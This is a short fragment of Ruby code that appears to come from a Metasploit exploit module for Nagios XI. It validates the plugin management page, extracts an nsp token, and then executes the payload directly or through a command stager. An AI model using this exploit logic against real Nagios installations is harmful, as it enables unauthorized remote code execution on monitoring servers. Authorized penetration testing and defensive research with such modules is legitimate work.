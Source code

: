         unless res
          fail_with(Failure::Disconnected, "Connection failed while trying to visit `#{normalize_uri(target_uri.path, 'admin', 'monitoringplugins.php')}`")
        end

        unless res.code == 200 && res.body.include?('<title>Manage Plugins · Nagios XI</title>')
          fail_with(Failure::UnexpectedReply, "Unexpected response received while trying to visit `#{normalize_uri(target_uri.path, 'admin', 'monitoringplugins.php')}`")
        end

        # grab the nsp token, using the Nagios XI mixin
        @nsp = get_nsp(res)

        if @nsp.blank?
          fail_with(Failure::Unknown, 'Failed to obtain the nsp token required to upload the payload')
        end

        if target.arch.first == ARCH_CMD
          print_status('Executing the payload')
          execute_command(payload.encoded)
        else
          execute_cmdstager(background: true)
        end
      end
    end